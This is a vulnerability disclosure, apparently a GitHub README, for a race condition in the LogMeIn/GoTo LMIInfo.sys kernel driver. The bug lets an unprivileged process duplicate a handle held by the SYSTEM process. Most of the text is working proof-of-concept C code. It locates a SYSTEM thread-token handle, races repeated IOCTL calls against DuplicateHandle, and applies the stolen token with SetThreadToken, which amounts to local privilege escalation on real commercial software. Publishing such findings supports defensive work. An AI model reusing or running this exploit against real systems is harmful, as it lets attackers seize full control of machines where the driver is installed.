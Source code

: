 # LogMeIn / GoTo LMIInfo.sys Handle Duplication

### Summary

A race condition exists in the LMIInfo.sys driver provided by LogMeIn / GoTo RMM wherein an arbitrary handle can be duplicated from the SYSTEM process.
The core issue stems from the lack of proper access control on the device object alongside the obviously poor decision to duplicate user-specified handles from the system process.

### Details

IOCTL: `0x9211001C`

Input buffer:
```C
// LMI-Common.cpp
typedef struct LMI_INFO {
	DWORD64 qwPid;
	DWORD64 reserved0;
	DWORD64 handleValue;
	DWORD64 reserved1;
} LMI_INFO, * PLMI_INFO;
```

Dispatch:

![Dispatch table](images/1.png)

Susceptible Function:

![Vulnerable function](images/2.png)

When gathering handle information and performing string processing, in between calls to ZwDuplicateObject/ZwClose, the calling process may duplicate the duplicated handle. If performed correctly, the secondary duplicated handle will persist after the primary duplicated handle has been closed.

In order to trigger the bug reliably, all handles used by the process MUST be created before triggering the race condition. The target handle is queried from the system process using the following function (thread token used as example):

```C
// LMI-Common.cpp
HANDLE FindSystemPidFirstToken()
{
	HANDLE hHeap = GetProcessHeap();
	LPVOID lpBuf = HeapAlloc(hHeap, HEAP_ZERO_MEMORY, 0x20000);
	if (!lpBuf) {
		printf("HeapAlloc - %d\n", GetLastError());
		return INVALID_HANDLE_VALUE;
	}
	ULONG ulBytesReturned = 0;
	NTSTATUS status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)SystemHandleInformation, lpBuf, 0x20000, &ulBytesReturned);

	while (status == 0xC0000004) {
		HeapFree(hHeap, 0, lpBuf);
		lpBuf = HeapAlloc(hHeap, HEAP_ZERO_MEMORY, ulBytesReturned + 0x1000);
		if (!lpBuf) {
			printf("HeapAlloc - %d\n", GetLastError());
			return INVALID_HANDLE_VALUE;
		}
		status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)SystemHandleInformation, lpBuf, ulBytesReturned + 0x1000, &ulBytesReturned);
	}


	if (status) {
		printf("Query for handles failed - %lx\n", status);
		return INVALID_HANDLE_VALUE;
	}

	PSYSTEM_HANDLE_INFORMATION pSysHandleInfo = (PSYSTEM_HANDLE_INFORMATION)lpBuf;

	for (unsigned int i = 0; i < pSysHandleInfo->NumberOfHandles; i++) {
		SYSTEM_HANDLE_TABLE_ENTRY_INFO shtei = pSysHandleInfo->Handles[i];
		if (shtei.UniqueProcessId != 4) {
			continue;
		}
		printf("HANDLE:\n\t Handle Value 0x%x - Type 0x%x - Access 0x%x\n", shtei.HandleValue, shtei.ObjectTypeIndex, shtei.GrantedAccess);
		if (shtei.ObjectTypeIndex == OBJECT_TYPE_THREAD_TOKEN && shtei.GrantedAccess == THREAD_TOKEN_IMPERSONATE_PRIVILEGES) {
			printf("Found handle to token:\n\t Handle Value 0x%x - Type 0x%x - Access 0x%x\n", shtei.HandleValue, shtei.ObjectTypeIndex, shtei.GrantedAccess);
			return (HANDLE)shtei.HandleValue;
		}
	}

	return INVALID_HANDLE_VALUE;
}
```

As `HANDLE` values increase in increments of 4, we calculate the value of the primary duplicated handle by getting a count of `HANDLE`s and adding 4. As such we open the device, and create the "racing" thread in a suspended state before calculating the next handle value. This could probably be performed in a more stable and "refined" fashion, which is left as an exercise to the reader who is likely more proficient lmao.

```C
// LMI-Common.cpp
HANDLE FindNextCreatedHandle() {
	HANDLE highestHandle = 0;
	UINT32 u32NumHandles = 0;
	ULONG ulSizeReturned = 0;
	NTSTATUS status = 0;
	status = NtQueryInformationProcess((HANDLE)-1, (PROCESSINFOCLASS)ProcessHandleCount, &u32NumHandles, sizeof(UINT32), &ulSizeReturned);
	if (!NT_SUCCESS(status)) {
		return (HANDLE)-1;
	}

	return (HANDLE)((UINT64)++u32NumHandles * 4);
}
```

Once complete, the racing thread is resumed and repeated IOCTLs are issued:

```C
// LMI-Common.cpp
NTSTATUS DupeThread(LPVOID lpParam) {
	puts("Entered DupeThread");
	if (!lpParam || lpParam == INVALID_HANDLE_VALUE) {
		printf("Invalid device handle passed to thread : %lx\n", GetLastError());
		return -1;
	}

	PDUPE_THREAD_INFO Dti = (PDUPE_THREAD_INFO)lpParam;

	DWORD dwBytesReturned = 0;
	LMI_INFO lmii = { 0 };
	lmii.qwPid = 4;
	lmii.handleValue = (UINT64)FindSystemPidFirstToken(); // yes, I know

	if ((HANDLE)lmii.handleValue == INVALID_HANDLE_VALUE) {
		puts("Couldn't find a token handle in the system process??");
	}

	BOOL bRes = FALSE;
	LPVOID lpOutBuf = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 0x1000);

	if (!lpOutBuf) {
		printf("HeapAlloc : %lx\n", GetLastError());
		return -1;
	}

	while (Dti->Run) {
		// call DeviceIoControl to start the race
		bRes = DeviceIoControl(
			Dti->hDevice,
			IOCTL_DUPE_LEL,
			&lmii,
			sizeof(LMI_INFO),
			lpOutBuf,
			0x1000,
			&dwBytesReturned,
			NULL
		);
	}	
}
```

The design consideration of the racing thread is due to the following:
* I am bad at exploiting race conditions

The main thread repeatedly calls `DuplicateHandle` to duplicate the primary duplicated handle until the duplication is successful, and the global boolean is set to false to quit the racing thread (yes, yes I know).

```C
// Source.cpp
HANDLE hTarget = FindNextCreatedHandle();
hTarget = (HANDLE)((UINT64)hTarget + 4);

puts("Resuming dupe thread");
dwSuspendCount = ResumeThread(hDupeThread);
if (dwSuspendCount == -1) {
    printf("Error resuming dupe thread - %lx\n", GetLastError());
    return -1;
}

while (!bRes) {
    bRes = DuplicateHandle(g_hCurrentProc, hTarget, g_hCurrentProc, &hToken, NULL, FALSE, DUPLICATE_SAME_ACCESS);
}

dti.Run = FALSE;

if (bRes) {
    puts("ebin");
    printf("%llx - target\n", hTarget);
    printf("%llx - dup\n", hToken);
    bRes = SetThreadToken(NULL, hToken);
    if (!bRes) {
        printf("Failed to SetThreadToken - %x\nExploitation failed!", GetLastError());
    }
    else {
        puts("Set the thread token!");
    }
}
else {
    printf("Failed to dupe token: %lx\n", GetLastError());
    return -1;
}

getchar();
return 0;
```

![Video](images/lmi.mp4)

